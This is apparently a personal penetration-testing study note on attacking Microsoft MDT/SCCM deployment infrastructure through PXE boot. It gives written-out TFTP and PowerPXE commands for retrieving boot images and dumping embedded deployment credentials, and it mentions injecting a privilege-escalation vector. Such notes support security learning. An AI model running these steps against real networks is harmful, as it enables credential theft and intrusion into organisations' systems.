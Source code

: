 Used to deploy software and updates across a large network, misconfigs often present

# MDT and SCCM
Microsoft Deployment Toolkit: deploys standardized images of the Microsoft OS. Plug in a network cable and a new boot image can be installed.

System Center Configuration Management: Expansion of MDT that manages patches and software installations on computers in the network

# PXE Boot
Preboot Execution Environment actually enables the direct load and install of an OS over the network. MDT manages, creates and hosts PXE boot images. Integrates with DHCP so a host can request PXE via [[TFTP]] boot when assigned an IP lease
![[Pasted image 20230306144622.png]]
- Inject priv esc vector through a local admin
- Password scraping attack during install (service deployment account, or others for unattended install of apps and services)

# PXE Boot Image Retrieval
1. Get IP of MDT server (in PXE Boot preconfigure packets via DHCP)
2. Get names of BCD files which contain info about PXE Boot for different architectures (usually via a website like `pxeboot.us.corpa.com` . Can be requested via TFTP, usually have long strings and are regenerated everyday
3. (From a jump box on the network) Request the relevant BDC file from the MDT via TFTP, `tftp -i MDT_IP GET "\Tmp\x64{39...28} .bcd" conf.bcd`, BCD files are always in the `\Tmp\` dir
4. Use [[powerpxe]] to read file contents:  
	1. `powershell -executionpolicy bypass`, 
	2. `Import-Module .\PowerPXE.ps1` (assuming you have uploaded it to the jump box), 
	3. `$BCDFile = "conf.bcd"`, 
	4. `Get-WimFile -bcdFile $BCDFile`
	5. Output shows .wim file location
5. Grab .wim from MDT `tftp -i MDT_IP GET "OUTPUTED_WIM_DIR" pxeboot.wim`

# Recovering Creds from PXE Boot Image
Simple vector would be to exfiltrate existing credentials
1. `Get-FindCredentials -WimFile pxeboot.wim`
2. Creds dumped
